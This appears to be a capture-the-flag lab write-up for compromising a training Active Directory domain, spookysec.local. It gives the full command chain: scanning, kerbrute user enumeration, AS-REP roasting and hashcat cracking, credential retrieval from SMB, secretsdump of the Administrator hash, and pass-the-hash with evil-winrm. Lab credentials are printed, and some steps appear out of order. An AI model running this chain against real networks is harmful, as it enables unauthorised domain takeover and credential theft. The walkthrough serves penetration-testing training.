 # Attacktive directory

## Attack tree

```text
1 Discovery
    1.1 Scan ports
    1.2 Enumerate 139/445
2 Enumerate DC users via kerberos (AND)
3 Exploit Kerberos
    3.1 Query a ticket from users (if possible) (AND)
    3.2 Crack the hash
4 Enumerate the DC further 
    4.1 Map remote SMB shares
    4.2 Search for files with information for further escalation
    4.3 Decode if necessary
5 Elevate privileges within the domain
    5.1 Dump ntds.dit
    5.2 Get administrators NTLM hash
    5.3 Pass the hash with Evil-WinRM
```

## Example

### Discovery

#### Scan with nmap

    # nmap -sV -sC -T4 <IP address target>

#### Enumerate 139/445

    # enum4linux <IP address target>

## Enumerate the DC

Add the following line to `/etc/hosts` file:

    <IP address target> spookysec.local

Download the user list and password list in the ~/Downloads directory:

```text
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```

Run the kerbrute command in the ~/Downloads directory:

    # /opt/kerbrute/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

### Exploiting Kerberos

Kerberos pre-authentication has been disabled for svc-admin. Get the ticket:

    # cd /opt/impacket/examples
    # python GetNPUsers.py spookysec.local/svc-admin -no-pass

Check what [type of hash](https://hashcat.net/wiki/doku.php?id=example_hashes) was retrieved:

    Kerberos 5 AS-REP etype 23 -> mode 18200

Crack the hash with the modified password list:

    # hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt

Connect to the share using smbclient:

```text
smbclient '\\spookysec.local\backup' -U svc-admin
smb: \> ls
smb: \> mget backup_credentials.txt
exit
```

Decode using [base64](https://www.base64decode.org/). We now have the credentials of the backup account.

`secretdump.py` is part of impacket:

```text
cd /opt/impacket/examples
python3 secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
```

Now we have the password: management2005

### Enumerate the DC further

Map remote shares:

    $ smbclient -U spookysec.local/svc-admin -L //<IP target machine>
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 

And:

    $ smbclient -U spookysec.local/svc-admin //<IP target machine>/backup
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Sat Apr  4 19:08:39 2020
      ..                                  D        0  Sat Apr  4 19:08:39 2020
      backup_credentials.txt              A       48  Sat Apr  4 19:08:53 2020

Get them backup credentials:

    smb: \> get backup_credentials.txt

It contains base64 encoded credentials. Decoding the base64 string reveals the credentials:
    
    $ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
    [...]:backup2517860

Now that we have new user account credentials, we may have more privileges on the system than before. 
The username of the account "backup" indicated it is the backup account for the Domain Controller. 
This account has a unique permission that allows all Active Directory changes to be synced with this user account. 
This includes password hashes.

### Elevate privileges within the domain

Retrieve all password hashes that this user account (which is synced with the domain controller) has to offer. 
Exploiting this, we may have full control over the AD Domain.

    $ python secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
    ...
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
    ...

Pass the Administrators NTLM hash with Evil-WinRM:

    $ evil-winrm -i <IP target machine> -u Administrator -H <Administrators NTLM hash>

If on TryHackMe target, all flags are in the users desktops. The Administrator account has got acces to all.

## Tools

* [Impacket](https://github.com/SecureAuthCorp/impacket)

```text
# git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
# pip3 install -r /opt/impacket/requirements.txt
# cd /opt/impacket/ && python3 ./setup.py install
```

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```text
# apt install bloodhound neo4j
```

* [Kerbrute](https://github.com/ropnop/kerbrute/releases/)

```text
# chmod +x filename
# mkdir /opt/kerbrute
# cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute
```
